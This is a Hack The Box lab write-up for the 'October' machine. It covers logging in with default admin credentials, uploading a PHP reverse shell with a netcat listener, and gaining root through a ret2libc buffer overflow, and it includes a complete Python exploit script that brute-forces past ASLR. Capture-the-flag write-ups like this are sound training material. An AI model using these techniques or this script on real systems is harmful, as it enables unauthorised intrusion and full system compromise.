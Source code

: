 ```yaml
---
title: 'HTB: October'
date: '2019-03-27'
excerpt: 'October is a fairly easy machine to gain an initial foothold on, however it presents a fair challenge for users who have never worked with NX/DEP or ASLR while exploiting buffer overflows.'
readingTime: 3
tags: ['HTB', 'Writeup', 'HTB', 'Writeup', 'Medium', 'Linux', 'Web', 'Pwn']
author: 'pir4cy'
coverImage: '/images/htb/covers/october-cover.png'
---
```


# October

## Info
  * IP : 10.10.10.16
  * OS : Linux
  * Difficulty: Medium

## System Enumeration
 
### Nmap

![Nmap](/images/htb/machines/October/nmap.png "Nmap")

### Dirbuster

![Dirbuster](/images/htb/machines/October/dirbuster.png "Dirbuster")

### WebPortal

![Web Portal](/images/htb/machines/October/webportal.png "Vanilla CMS")

#### Backend

![Web Backend](/images/htb/machines/October/backend.png "October Backend")


## Exploitation
 
Trying the default user and password, i.e, `admin` and `admin`, we manage to get in and see that there is a media tab.  
This opens up the possibility of a reverse shell upload.  
Since the already uploaded file is in php5, I renamed my shell from php to php5, just to ensure that I'll be successful in uploading a shell.  

![PHP Uploaded](/images/htb/machines/October/uploadphp.png "PHP Shell")

We create a netcat listener on our local machine using `nc -lvnp 1234`.  
Click on the uploaded file and view it.  

And voila! We have a shell.

### User Exposed

Simple enumeration let's us find `user.txt` and read it even though we are `www-data`.

![User Exposed](/images/htb/machines/October/userExposed.png "Exposed User")

## Privilege Escalation

Now, to obtain `root.txt`, we need to escalate our privileges to root.  

As a first step, I always use `find / -perm -4000 -type f 2>/dev/null` to find SUID binaries and luckily enough, we find `/usr/local/bin/ovrflw`.  
Running `ovrflw` tells us that it needs an input string.  
This can be exploited using a Ret2Lib Attack.  

To debug further, I downloaded the binary to my local machine using base64 conversions.  
  1. On host machine, base64 /usr/local/bin/ovrflw  
  2. Copy the output and store it in a file on your machine  
  3. Use `base64 -d <localfile.b64> > ovrflw`  
  4. chmod +x ovrflw  
  5. gdb ovrflw  

Using `pattern_create 200`, we create a unique pattern of 200 characters and pass it to ovrflw as argument  

![Segmentation Fault](/images/htb/machines/October/segfault.png "Seg Fault")  

Now we use `pattern_offset <segfault_address>` to find where the buffer overflow occured.

![Offset Found](/images/htb/machines/October/offsetFound.png "Offset Found")  

### Creating a payload

Now, to successfully perform ret2lib attack, we have to perform buffer overflow by passing it to the binary `ovrflw`.  

Required addresses:
  * System address
  * Exit address(which can be anything)
  * Address of /bin/sh

But first we have to check if ASLR is enabled. If ASLR is enabled our <libbase> address keeps on changing and if not, we can simply use the addresses as we obtain them.  

To check if ASLR is enabled, simply use `ldd /usr/local/bin/ovrflw` 2 to 3 times:

![ASLR LDD](/images/htb/machines/October/ldd.png "ASLR is enabled")  

As can be observed from the screenshot, the libbase address changes everytime we use `ldd`.  

We will proceed to create our payload accordingly.  

Select any one of the addresses for libBase. I used the first one, i.e, `libbase = 0xb75c4000`
#### Getting Required Offsets

So we know that the libbase is at `/lib/i386-linux-gnu/libc.so.6`.  

To get our offsets, we are going to use the `readelf` command.  

Step 1: For system, we use `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system`
	![System Offset](/images/htb/machines/October/systemOffset.png "Offset Found")  
Step 2: For exit, we use `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit`
	![Exit Offset](/images/htb/machines/October/exitOffset.png "Offset Found")  
Step 3: For the offset of /bin/sh we have to use strings, i.e, `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh`
	![/bin/sh Offset](/images/htb/machines/October/binshOffset.png "Offset Found")  

Now we have all our offsets, it's time to create a payload.  

#### Creating bufferOverflow.py

```
import subprocess,struct

libBase = 0xb75c4000
system_Off = 0x00040310
exit_Off = 0x00033260
binsh_Off = 0x00162bac

system_addr = struct.pack("<I", libBase + system_Off)
exit_addr = struct.pack("<I", libBase + exit_Off)
binsh_addr = struct.pack("<I",libBase + binsh_Off)

payload = "A"*112
payload += system_addr
payload += exit_addr
payload += binsh_addr

i =0
while True:
    i+=1
    print "Attempts: " + str(i)
    subprocess.call(["/usr/local/bin/ovrflw", payload])
```

The reason we added a loop is because the `libc` address is constantly changing. Therefore, to ensure that we reach the right libc address, we keep on running our script.  

### Execution

Simply execute `python bufferOverflow.py`.  

![Overflow](/images/htb/machines/October/bufferOverflow.png "Overflow")

And we are root:

![Pwnage](/images/htb/machines/October/owned.png "Rooted")
